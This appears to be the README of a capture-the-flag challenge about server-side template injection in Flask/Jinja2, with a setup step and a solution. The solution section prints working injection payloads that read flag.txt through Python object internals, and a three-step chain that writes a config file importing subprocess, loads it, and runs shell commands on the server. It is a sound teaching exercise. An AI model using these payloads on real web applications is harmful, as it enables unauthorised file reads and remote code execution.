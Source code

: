 # Flask Template Injection

Objective is for the player to use template injection to get a shell on the web server and print the flag.

## Setup
Install docker and run `./rundocker.sh`

## Solution
The solution is to use the flask injection vulnerability to read the flag off of the server. More background can be found here: https://nvisium.com/resources/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html  
and  
https://nvisium.com/resources/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html

Possible solutions is to put the follwing in one of the text boxes:  
`{{ ''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read() }}`  
or the following commands seperately:   
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}
{{ config.from_pyfile('/tmp/owned.cfg') }}
{{ config['RUNCMD']('cat flag.txt',shell=True) }}
```
